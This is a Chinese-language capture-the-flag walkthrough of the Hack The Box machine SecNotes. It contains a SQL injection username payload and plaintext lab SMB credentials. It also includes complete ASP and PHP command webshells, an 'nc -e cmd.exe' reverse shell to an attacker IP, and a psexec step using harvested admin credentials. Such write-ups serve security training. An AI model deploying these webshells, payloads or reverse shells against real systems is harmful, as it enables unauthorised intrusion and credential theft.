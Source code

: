 # SecNotes\_97

![image-20200917091349923](assets/SecNotes_97.assets/image-20200917091349923.png)

![image-20200710082442404](assets/SecNotes_97.assets/image-20200710082442404.png)

![image-20200710083122580](assets/SecNotes_97.assets/image-20200710083122580.png)

![image-20200710084616020](assets/SecNotes_97.assets/image-20200710084616020.png)

尝试注册

![image-20200710085126592](assets/SecNotes_97.assets/image-20200710085126592.png)

查看越权也没有可供利用的点，

![image-20200710091153636](assets/SecNotes_97.assets/image-20200710091153636.png)

在尝试了一些功能后在，发现提交note后，主页的删除功能应该是调用了数据库功能。

再尝试了一些事情后仍然没有突破口。而且445端口也没有可以利用的点或能够获得的信息。

由于是页面逻辑是显示用户的所有note，那数据库的语句可能是类似`SELECT * FROM notes WHERE user = 'evil'`

尝试在用户名上进行注入

重新注册

![image-20200710100544414](assets/SecNotes_97.assets/image-20200710100544414.png)

![image-20200710100623929](assets/SecNotes_97.assets/image-20200710100623929.png)

尝试更多的注入尝试

![image-20200710093653171](assets/SecNotes_97.assets/image-20200710093653171.png)

![image-20200710093736058](assets/SecNotes_97.assets/image-20200710093736058.png)

500,应该是存在注入的。

经过多次重试各种注释符号/

最终确认注释应该是`-- -`

注册用户为`sqli' or 1=1 -- -`

成功注入，读取到所有的notes

![image-20200710094153230](assets/SecNotes_97.assets/image-20200710094153230.png)

似乎有个凭据

![image-20200710094456529](assets/SecNotes_97.assets/image-20200710094456529.png)

看上面的链接格式应该smb

那下面的凭证也应该是smb的凭证。

```bash
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

首先为htb增加hosts

![image-20200710094801519](assets/SecNotes_97.assets/image-20200710094801519.png)

使用得到的凭证登录

```bash
smbclient -U tyler //secnotes.htb/new-site
```

![image-20200710095310422](assets/SecNotes_97.assets/image-20200710095310422.png)

发现两个文件。get下来

![image-20200710095434894](assets/SecNotes_97.assets/image-20200710095434894.png)

两文件都指向一个新的iis网页，网页服务应该在另一个端口上。

![image-20200710101035514](assets/SecNotes_97.assets/image-20200710101035514.png)

我们在端口扫描时一定错过了，重新进行全端口扫瞄

利用凭证重新查看一下权限。IIS所在目录应该是可写的，我们可以猜测这个目录就是new-site正在运行的目录。

![image-20200710103428772](assets/SecNotes_97.assets/image-20200710103428772.png)

我们可以上传一个asp webshell文件以及nc直接保存到这个位置，再在web进行激活。

```text
<!--
ASP Webshell
Working on latest IIS
Referance :-
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp
http://stackoverflow.com/questions/11501044/i-need-execute-a-command-line-in-a-visual-basic-script
http://www.w3schools.com/asp/
-->
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>

</BODY>
</HTML>
```

![image-20200710104750915](assets/SecNotes_97.assets/image-20200710104750915.png)

但是当我们试图激活webshell时我们发现目录已经自动删除这两个文件了。

由于目录中存在htm和png后缀的文件，所以这两个后缀是不会被删除的。但是稍后发现，无论是什么后缀是都会被删除的。

总之

重新制作一个html+php的cmdwebshell,与nc一起put进smb

webshell.php

```text
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
  }
?>
</pre>
</BODY></HTML>
```

![image-20200710114700946](assets/SecNotes_97.assets/image-20200710114700946.png)

虽然直接浏览页面是500,但仍然可以通过在浏览器地址栏执行cmd命令得到shell

```text
nc -e cmd.exe 10.10.14.15 1337
```

![image-20200710114822602](assets/SecNotes_97.assets/image-20200710114822602.png)

![image-20200710114951984](assets/SecNotes_97.assets/image-20200710114951984.png)

同时我们注意到有一个bash的快捷方式。

![image-20200710115323143](assets/SecNotes_97.assets/image-20200710115323143.png)

快捷方式指向`C:\Windows\System32\bash.exe`

通常存在bash可能是windows中存在wsl

直接执行镜像目录下的bash即可进入wsl中的系统，

先搜索一下镜像bash的位置

```text
dir /s bash.exe
```

![image-20200710120101171](assets/SecNotes_97.assets/image-20200710120101171.png)

执行

![image-20200710120252823](assets/SecNotes_97.assets/image-20200710120252823.png)

flag肯定不会在子系统内

看看能不能找到一些线索

![image-20200710120434640](assets/SecNotes_97.assets/image-20200710120434640.png)

bash历史记录中直接显示了管理员进行的smb链接

利用psexec及已知凭证直接连接

完

![image-20200710114111456](assets/SecNotes_97.assets/image-20200710114111456.png)

